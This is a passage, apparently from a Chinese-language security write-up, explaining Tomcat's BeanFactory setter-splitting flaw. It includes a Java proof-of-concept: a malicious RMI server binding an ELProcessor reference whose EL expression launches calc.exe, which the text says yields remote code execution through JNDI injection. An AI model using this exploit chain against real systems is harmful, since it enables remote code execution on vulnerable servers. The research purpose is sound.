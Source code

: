 ![](2023-02-21-15-04-34.png)  
在最后会通过反射来执行该setter方法.  
![](2023-02-21-15-06-59.png)
#### POC
可以看到其获取setter方法的逻辑只是简单的用`,`和`=`进行分割,并没有校验是否是真的setter方法,所以可以构造恶意的ref使其调用恶意方法.
```java
            Registry registry = LocateRegistry.createRegistry(1099);
            ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true, "org.apache.naming.factory.BeanFactory", null);
            ref.add(new StringRefAddr("forceString", "x=eval"));
            ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['cmd.exe','/c','calc.exe']).start()\")"));
            ReferenceWrapper referenceWrapper = new ReferenceWrapper(ref);
            registry.bind("evilFactory", referenceWrapper);
            System.out.println("evilFactory reference bound");
```
通过构成beanClass为`ELProcessor`,然后设置其setter方法为`eval()`,利用EL表达式注入RCE.  